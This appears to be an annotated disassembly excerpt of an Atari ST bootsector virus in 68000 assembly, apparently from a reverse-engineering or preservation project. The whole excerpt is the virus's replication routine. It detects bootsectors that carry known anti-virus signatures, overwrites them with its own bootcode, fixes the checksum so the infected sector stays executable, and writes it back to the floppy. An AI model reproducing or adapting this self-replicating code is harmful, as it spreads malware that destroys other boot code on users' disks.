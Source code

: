 ```asm
        MOVE.L    #FLOPWR_PATTERN,D4                ; D4 = FLOPWR_PATTERN ($94E4E) => footprint for Flopwr
        MOVE.L    #PROTOBT_PATTERN,D3               ; D3 = PROTOBT_PATTERN ($124E4E) => footprint for Protobt
.loop:
        MOVE.L    (A5),D2                           ; D2=DISKBUFP[i]
        CMP.L     D6,D2                             ; if boostsector[i] == RESVEC_MAGIC => Fuzion virus killer, The Killer, Amiga Demo, Big Demo, Medway Protector III, Virus Report
                                                    ; in fact any bootsector checking for resident programs
        BEQ.S     .replicate
        CMP.L     D4,D2                             ; if boostsector[i] == 0x94E4E => This Anti-Virus beeps and f... AntiVirus #1 from UVK, Satan's antivirus
                                                    ; it represents a MOVE.W #$09,-(sp) then TRAP #$E Flopwr call
        BEQ.S     .replicate
        CMP.L     D3,D2                             ; if boostsector[i] == 0x124E4E => This Anti-Virus beeps and f... AntiVirus #1 from UVK, ZOCH virus killer
                                                    ; it represents a MOVE.W #$12,-(sp) then TRAP #$E Protobt call
        BEQ.S     .replicate
        ADDQ.W    #2,A5                             ; else advance A5 of 2 bytes
        CMPA.W    A4,A5                             ; if not reach 512 bytes
        BGT.S     .done                             ; continue to check
        BRA.S     .loop
.done:
        ; check if existing bootsector is executable
        MOVEA.L   DISKBUFP.L,A5
        MOVE.W    #$FF,D5
.check_boot_checksum:
        ADD.W     (A5)+,D0
        DBF       D5,.check_boot_checksum
        CMP.W     #BOOT_CHK,D0
        BEQ.S     DONE                              ; if yes, don't touch it
.replicate:
        MOVEA.L   DISKBUFP.L,A5
        CLR.L     (A5)+                             ; 00 00 00 00 60 18
        MOVE.L    #BOOTSECTOR_START,(A5)+           ; Set Bootsector start which overlaps with the OEM bytes
        ADDA.L    #$16,A5                           ; advance of 22 bytes => 4+4+22 = bootcode ($1E)
        LEA       START(PC),A4
        MOVE.W    #$FF,D5
.copy:
        MOVE.W    (A4)+,(A5)+                       ; copy 512 bytes of bootcode to DISKBUFP+0x1E
        DBF       D5,.copy

        MOVEA.L   DISKBUFP.L,A5                     ; recompute the checksum
        MOVE.W    #$FF,D1                           ; D1 = 255
        CLR.W     D2
.calc_boot_checksum:
        ADD.W     (A5)+,D2
        DBF       D1,.calc_boot_checksum
        NEG.W     D2                                ; adjust checksum
        ADDI.W    #BOOT_CHK,D2                      ; add checkum
        MOVEA.L   DISKBUFP.L,A5                     ;
        MOVE.W    D2,6(A5)

        MOVE.B    #9,3(A3)                          ; patch XBIOS call to flopwr
        BSR       READ_OR_WRITE_BOOTSECTOR

```
